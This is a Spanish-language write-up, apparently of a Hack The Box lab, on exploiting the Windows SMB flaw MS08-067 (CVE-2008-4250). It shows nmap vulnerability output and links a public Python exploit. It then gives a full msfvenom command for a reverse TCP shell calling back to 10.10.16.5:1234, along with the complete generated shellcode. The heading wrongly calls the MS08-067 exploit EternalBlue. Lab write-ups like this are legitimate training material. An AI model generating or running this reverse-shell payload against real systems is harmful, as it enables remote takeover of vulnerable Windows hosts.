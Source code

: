 ```ruby
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250

```
Vemos que es vulnerable y tenemos dos opciones `smb-vuln-ms17-010 & smb-vuln-ms08-067`. Nos decantaremos por la última, ya que en la máquina <a href="/Blue-Hack-The-Box/" target="_blank">Blue</a> 
usamos la primera.


## EXPLOTACION CON ETERNALBLUE 

<h3 style="text-align:center;" id="github">REPOSITORIO</h3><br>

Tenemos un repositorio de <a href="https://github.com/andyacer/ms08_067" target="_blanck">github</a> donde se nos facilita un script en python para explotar esta vulnerabilidad `CVE-2008-4250`.
<br>
<h3 style="text-align:center;" id="shellcode">CREACION DEL SHELLCODE MSFVENOM</h3><br>

Vamos a generar un shellcode con `msfvenom`.

```ruby
❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=1234 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of c file: 1488 bytes
unsigned char buf[] = 
"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\x6f\x88\xb5\xee\x83\xee\xfc\xe2\xf4\x93\x60\x37\xee\x6f\x88"
"\xd5\x67\x8a\xb9\x75\x8a\xe4\xd8\x85\x65\x3d\x84\x3e\xbc\x7b"
"\x03\xc7\xc6\x60\x3f\xff\xc8\x5e\x77\x19\xd2\x0e\xf4\xb7\xc2"
"\x4f\x49\x7a\xe3\x6e\x4f\x57\x1c\x3d\xdf\x3e\xbc\x7f\x03\xff"
"\xd2\xe4\xc4\xa4\x96\x8c\xc0\xb4\x3f\x3e\x03\xec\xce\x6e\x5b"
"\x3e\xa7\x77\x6b\x8f\xa7\xe4\xbc\x3e\xef\xb9\xb9\x4a\x42\xae"
"\x47\xb8\xef\xa8\xb0\x55\x9b\x99\x8b\xc8\x16\x54\xf5\x91\x9b"
"\x8b\xd0\x3e\xb6\x4b\x89\x66\x88\xe4\x84\xfe\x65\x37\x94\xb4"
"\x3d\xe4\x8c\x3e\xef\xbf\x01\xf1\xca\x4b\xd3\xee\x8f\x36\xd2"
"\xe4\x11\x8f\xd7\xea\xb4\xe4\x9a\x5e\x63\x32\xe0\x86\xdc\x6f"
"\x88\xdd\x99\x1c\xba\xea\xba\x07\xc4\xc2\xc8\x68\x77\x60\x56"
"\xff\x89\xb5\xee\x46\x4c\xe1\xbe\x07\xa1\x35\x85\x6f\x77\x60"
"\xbe\x3f\xd8\xe5\xae\x3f\xc8\xe5\x86\x85\x87\x6a\x0e\x90\x5d"
"\x22\x84\x6a\xe0\xbf\xe4\x7f\x8d\xdd\xec\x6f\x8c\x67\x67\x89"
"\xe2\xa5\xb8\x38\xe0\x2c\x4b\x1b\xe9\x4a\x3b\xea\x48\xc1\xe2"
"\x90\xc6\xbd\x9b\x83\xe0\x45\x5b\xcd\xde\x4a\x3b\x07\xeb\xd8"
"\x8a\x6f\x01\x56\xb9\x38\xdf\x84\x18\x05\x9a\xec\xb8\x8d\x75"
"\xd3\x29\x2b\xac\x89\xef\x6e\x05\xf1\xca\x7f\x4e\xb5\xaa\x3b"
"\xd8\xe3\xb8\x39\xce\xe3\xa0\x39\xde\xe6\xb8\x07\xf1\x79\xd1"
"\xe9\x77\x60\x67\x8f\xc6\xe3\xa8\x90\xb8\xdd\xe6\xe8\x95\xd5"
"\x11\xba\x33\x55\xf3\x45\x82\xdd\x48\xfa\x35\x28\x11\xba\xb4"
"\xb3\x92\x65\x08\x4e\x0e\x1a\x8d\x0e\xa9\x7c\xfa\xda\x84\x6f"
"\xdb\x4a\x3b"
```
<br>
